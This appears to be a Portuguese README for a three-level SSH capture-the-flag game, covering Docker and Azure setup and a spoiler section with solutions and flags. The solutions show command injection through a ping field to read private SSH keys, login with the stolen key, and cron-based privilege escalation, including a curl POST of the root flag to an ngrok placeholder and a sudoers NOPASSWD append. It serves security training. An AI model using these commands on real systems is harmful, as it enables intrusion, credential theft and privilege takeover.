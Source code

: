 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.txt.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.

## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a [Docker](https://docs.docker.com/get-docker/) e [Docker Compose](https://docs.docker.com/compose/install/). 
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x (via NVM ([linux](https://github.com/nvm-sh/nvm)/[windows](https://github.com/coreybutler/nvm-windows/releases)) ou [download direto](https://nodejs.org/en/))
  * SSH client (para Windows, [putty](https://www.putty.org/))
  * [AZ Cli](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli)
  * Terraform (caso queira publicar a infra no Azure via AzureRM)

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222
* nivel 3 - usa a mesma conexão do nível 2

## Publicando na Azure
Após instalar `AZ Cli` e `terraform` de acordo com as recomendações para o seu sistema operacional, é necessário iniciar algumas etapas:
1. `az login` (para logar em sua conta, basta seguir o passo a passo ao abrir o navegador)
2. `az account show` (para verificar se está utilizando a subscription correta, para trocar veja este [link](https://docs.microsoft.com/en-us/cli/azure/account?view=azure-cli-latest#az_account_set))
3. Na pasta do terraform, `terraform init` (para baixar o provider do Azure, azurerm)
4. `terraform apply` (para que o terraform conecte no azure e crie o plano de provisionamento)
5. Existem duas variáveis para orientar o terraform a provisionar o ambiente na região correta da Azure e com o prefixo adequado, por padrão, tenho utilizado `var.location=brazilsouth` e `var.prefix=ssh-game` mas não são valores obrigatórios, sinta-se livre para mudar
6. Se estiver de acordo com o plano e a subscription usada, responda com `yes` ao prompt do `terraform`
7. Ao finalizar o provisionamento, o Public IP via `output`, do terraform, será exibido no terminal
8. Por enquanto, a publicação está sendo feita através de um simples git clone do meu repositório, ainda privado.
9. Quando este repositório virar público, não será mais necessário utilizar SSH para dar clone, serão removidas sessões de upload de chave SSH privada e alterado o clone para HTTPS

TLDR para o terraform (ainda precisa de login no `AZ Cli` 
```bash
terraform apply -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para todos os recursos estarem provisionados e disponíveis ao uso.

## Não quero mais cobrança, quero destruir tudo isso ai lá na Azure 
```bash
terraform destroy -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para destruir todos os recursos.


## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.


## ** SOLUÇÕES - ESTE ESPAÇO É PARA SPOILERS DO GAME, NÃO ABRA CASO QUEIRA JOGAR DE VERDADE **
<details><summary>TUDO BEM, ME MOSTRA LOGO COMO RESOLVE ESSA COISA TODA!</summary>
<p>

### Nivel 1
Para conseguir acesso às chaves, utilize comandos shell com `ls -la` e `cat` nos arquivos da pasta `.ssh` 
```bash
google.com && ls -la .ssh  && cat .ssh/id_rsa.pub && cat .ssh/id_rsa
```

FLAG: L3CTF{y0u_sh311_n0t_p4ss} 

### Nivel 2
Para conseguir uma flag, basta conectar-se via SSH na máquina.
A ideia é que a pessoa consiga entender o nome do usuário para logar (via chave pública, id_rsa.pub, no comentário do arquivo) e baixe o conteúdo da chave privada (id_rsa)
O IP já terá sido fornecido para as pessoas jogarem.
Abaixo, a chave privada foi criada em /tmp/id_rsa (copiar e colar conteúdo do nivel 1)
```bash
ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -p 22 temp_user@191.234.178.199
```

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

### Nivel 3
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag/txt > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag.txt [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag.txt
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

</p>
</details>

